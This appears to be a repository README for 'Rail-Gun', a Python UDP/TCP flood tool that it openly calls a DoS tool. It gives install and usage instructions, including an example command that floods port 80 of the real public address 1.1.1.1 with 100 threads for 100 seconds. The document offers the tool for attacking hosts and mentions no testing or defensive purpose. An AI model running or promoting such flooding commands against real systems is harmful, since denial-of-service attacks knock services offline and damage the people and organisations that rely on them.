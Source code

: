 # Rail-Gun
UDP/TCP DoS tool

rbxSec UDP/TCP Flooder
pip install -r requirements.txt 

Requires Python3

usage: 
python3 railgun.py -i IP -p PORT -c UDP or TCP -t TIME -th THREADS 

example : python3 railgun.py -i 1.1.1.1 -p 80 -c UDP -t 100 -th 100
